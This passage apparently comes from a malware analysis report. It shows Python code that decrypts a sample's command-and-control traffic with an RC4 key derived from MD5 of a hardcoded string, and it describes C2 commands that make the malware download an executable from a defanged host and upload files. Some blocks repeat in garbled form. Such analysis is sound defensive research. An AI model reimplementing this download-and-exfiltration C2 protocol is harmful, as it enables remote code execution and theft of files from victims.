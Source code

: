 from wincrypto import CryptCreateHash, CryptHashData,CryptDeriveKey, CryptDecrypt CALG_RC4 = 0x6801CALG_MD5 = 0x8003 md5_hasher = CryptCreateHash(CALG_MD5)CryptHashData(md5_hasher, 'gh204503254')rc4_key = CryptDeriveKey(md5_hasher, CALG_RC4)decrypted_data = CryptDecrypt(rc4_key, final_data)pp.pprint(decrypted_data)





At this stage, the remote server can send a number of different responses. The following example response will instruct the malware to download a remote executable file:





sys getinto "filename.exe" "01234567890123456789012345678901";\n




1

sys getinto "filename.exe" "01234567890123456789012345678901";\n





'filename.exe' is the path where the downloaded file will be stored, and '01234567890123456789012345678901' is the value supplied in the subsequent HTTP request. When this command is received, the following example request is made:





GET /index.php?fn=s3&file=01234567890123456789012345678901
HTTP/1.1
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1;
Trident/6.0)
Host: biosnews[.]info
Connection: Keep-Alive




123456

GET /index.php?fn=s3&file=01234567890123456789012345678901HTTP/1.1User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1;Trident/6.0)Host: biosnews[.]infoConnection: Keep-Alive





At this point, the remote server will respond with an unencrypted file that the malware saves to the system.
The remote server can also send the following example response. This response will instruct the malware to upload the specified file:





sys upto "filename.exe";\n




1
